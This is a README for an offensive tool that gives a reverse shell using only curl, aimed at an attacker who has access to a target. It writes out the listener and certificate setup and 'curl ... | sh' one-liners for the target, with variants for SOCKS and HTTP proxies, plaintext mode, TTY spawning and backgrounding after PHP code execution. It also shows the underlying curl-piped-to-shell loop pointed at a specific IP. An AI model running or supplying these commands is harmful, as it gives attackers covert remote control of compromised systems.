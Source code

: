# Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell); slightly enhanced)

An encrypted reverse TCP shell through a proxy (using only cURL).

It allows an attacker to access a remote shell (sh) when the remote system can access the Internet via a Proxy only (or the filesystem is mounted read-only/noexec). The target only needs to have `curl` and `sh` installed. Python is not needed and no additonal tools are installed or deployed.


Generate a SSL Certificate (on your system; not the target):
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener (your system)
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | sh
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | sh
```

# Advanced Tricks
**Trick #1 - Spawn a TTY shell**
```sh
stty intr undef susp undef;
./curlshell.py --shell "script -qc '/bin/bash -il' /dev/null" --listen-port 8080 ; stty intr ^C susp ^Z
```

**Trick #2 - Start the reverse shell as a daemon / background process**  
This is useful when you have remote execution via PHP:
```sh
# On the target:
(curl -sfL http://1.2.3.4:8080 | sh &>/dev/null &)
```

# How it works
The first cURL request pipes this into a target's shell:
```sh
exec curl -X POST -sN http://217.138.219.220:30903/input \
    | sh 2>&1 | curl -s -T - http://217.138.219.220:30903/stdout
```

This command starts two cURL processes and connects another shell's input and output these two cURL. HTTP's 'chunked transfer' (`-T`) does the rest.

---
More at https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet.

Join us on Telegram: https://t.me/thcorg
